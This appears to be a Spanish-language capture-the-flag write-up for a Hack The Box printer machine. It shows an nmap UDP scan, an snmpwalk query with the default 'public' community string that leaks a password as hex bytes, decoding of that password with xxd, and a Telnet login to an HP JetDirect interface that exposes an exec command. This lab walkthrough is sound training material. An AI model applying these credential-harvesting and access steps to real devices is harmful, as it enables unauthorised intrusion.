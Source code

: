 Luego del reconocimiento inicial, se procedió a realizar un escaneo de los principales puertos UDP, lo que reveló que el puerto 161/udp, correspondiente al protocolo SNMP, se encontraba abierto. 
```bash
❯ nmap -sU --top-ports 100 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.22s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp
```

Tras identificar que el SNMP estaba abierto, se utilizó la cadena de comunidad por defecto public junto con la herramienta snmpwalk para intentar obtener información sensible del sistema. El comando fue ejecutado especificando la versión 2c del protocolo y consultando el OID raíz (1). Como resultado, se obtuvo el nombre del dispositivo lo cual confirma que se trata de una impresora de red. Además, una de las respuestas contenía una secuencia de bytes la cual, al ser interpretada correctamente, revelaba las credenciales de acceso.
```bash
❯ snmpwalk -c public -v2c 10.10.11.107 1
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
SNMPv2-SMI::enterprises.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

La cadena codificada en formato BITS obtenida mediante SNMP fue procesada para extraer su contenido en texto claro. Para ello, se utilizó un comando que convierte los valores hexadecimales a ASCII mediante xxd. Esto permitió decodificar correctamente los bytes en crudo y revelar una posible contraseña: P@ssw0rd@123!! seguida de otros caracteres adicionales que parecen no formar parte del secreto principal. El comando utilizado fue:
```bash
❯ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 " | xargs | xxd -ps -r
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5#
```

## Network Printer Abuse

Una vez obtenidas las credenciales a través de SNMP, se intentó el acceso al servicio Telnet descubierto previamente en el puerto 23. La conexión fue exitosa, y el banner reveló que se trataba de un dispositivo HP JetDirect, confirmando que se trata de una impresora de red. se desplegaron las opciones de configuración disponibles, destacando el comando exec.
```bash
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
```
